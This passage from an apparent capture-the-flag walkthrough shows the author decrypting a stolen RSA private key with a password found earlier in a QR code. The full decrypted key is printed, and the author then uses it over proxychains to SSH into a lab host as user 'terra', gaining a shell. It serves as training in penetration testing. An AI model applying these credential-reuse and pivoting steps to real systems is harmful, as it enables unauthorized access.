 A private key? Encrypted though :( Remembering the string I got from the QR code earlier that had no affiliation to anything yet, I tried that as the password to decrypt:

```bash
root@kali:# openssl rsa -in terra_key -out terra_key_nopass
Enter pass phrase for terra_key: # entered Nk9yY31hva8q
writing RSA key

root@kali:~# cat terra_key_nopass
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAyekXwhcscSSzT3vw5/eL2h1Bb55vEIOOAkQpIQQ/ldnyT6Yt
w0dAaN71JidjfojzvdaZRNrRY5wkdHUr2t93TJx8vKDZ+n5up4nCKle3p2sz2hKP
DhP7LvxkVTM7Io3qoAYXefggTOWvfoK8X8pXE3xAdIyF4uCXmDjeg6UKoCr5XiWP
12YQEODLd+tp9RH4R/rCaencsNsta45sY1NXtWuJje4HVkPV8ei04ce8SP5PwVhV
sfp2Hxr8g4IKn7ZTwtmkD1SuvmZoyDHNAsToqFt2RiVE9yLQj94Gcagx7PqUijeH
b+4T+6tuDZtjgct4RdYZejnUOYx+iHiSjl6xCQIDAQABAoIBADYOi+fQ4HsiQkeD
fUn9gpnQv1Ys6rtXHUwKB6DpTETIZxFgAlyH1Py+xI+EeCTGcctfiwVeODUc9r2f
KTCeJ4iBVPwDbJieBO4h+bPwbCEMmINH+LjiLJu1wv70il6D9E8Hkn17Ktqrm8KZ
KenTeGClIXSSsr29N5jvkNNZ+nBK116l2TNNSsiWGc3VnezgCuRnDMSuKmA4P/OD
5F/h2/1sC33P1P5zxSMMsUZbm616AXNdv2DxHYm5b7p0L3/wzpZaJ+ZCp9jutbMO
P7XADZrFSn1EOk9blfVQz77GhRUVAotXKv7Jj4x+zHjq2l3n2Jk5RwJLl8iw4vZ+
ActgrskCgYEA5RhweA1naUanRJtlnLY4ywjfpZffPOZovmthqeOYdSJmwdmKvf08
bBR7hRwwlwgD92jeZWC1nK2zjwVpVQqV3sq4+x6Yspp0T5d9hp7PqUvPGglRdPXX
JQjMBV/Q2fK+ydnTz3xImjIvGsoFya9B/COKicu5ugCklCxtdNPJd/8CgYEA4Z9c
cekfgeha7sYe202krz0m03b8IqFaEMBUkEDmr8+RTL2H+9ciu3/2y/0UJ20w3qwe
gWv2OvOmumJ2wi/HVQdoQ9purzKWDdes6QrQsZ6+4eeylQmVmBSOF9YiVudSwyBM
+2rmE4m4qAIVidIJskb6DpB+fxDU1iWFLHlUFvcCgYEArxV8buOfkp+CmjZA9AF3
agQAGCf3Xi2hA1ZBr3rXOz3tVl0RYZ21ncwRkms231Yq4dxtiwDcCz/dKIK0O1/5
pek8cf6yKF1OYr2eG1In1nSvdHCGpmJz6EPO2JSfotGX6d/ltn5/ZgjQYyLeRYMB
ZNcsu57M9FAld3B0voJVSLUCgYACac72VPUGUbLvTOU1mU4CpdfNeT9XK3yoIzaE
WH1fMgwu0vQqaHGxqbu9ENbvWQalyxeEcOAwXzzQT49Pom0yZqLh3utCKntaaI0r
7Pawf68xAWZym6ii+M1QSfUSEuVauvS317vgR5/XBDaww7Ng2cuA7mC8ATUVmU8k
W6PfnwKBgQCBapB8OxxeRoFlnctafkTqtlNU5MGgiUGCCk/NNpDJhzaBuSdxdbRB
bQ6OJjQ9fbjF24w1iOJCGTtMQ0fxer7oxoM8TblM/eYx3Dg6MwsVApP75VdqzSas
mlJnXivwgJkeju+L42BMEl4UaxuhFPBSNCmlLBPj3Hdgyh5LSyIKmw==
-----END RSA PRIVATE KEY-----
```

Considering that **192.168.3.50** was named as `terra` in that `/etc/hosts` file, I attempted authentication using this key on it:

```bash
root@kali:~# proxychains ssh -D 8001 terra@192.168.3.50 -i terra_key_nopass
ProxyChains-3.1 (http://proxychains.sf.net)
Linux dev2 3.2.0-4-amd64 #1 SMP Debian 3.2.60-1+deb7u3 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Nov  9 07:13:31 2014 from 192.168.3.200
terra@dev2:~$
```
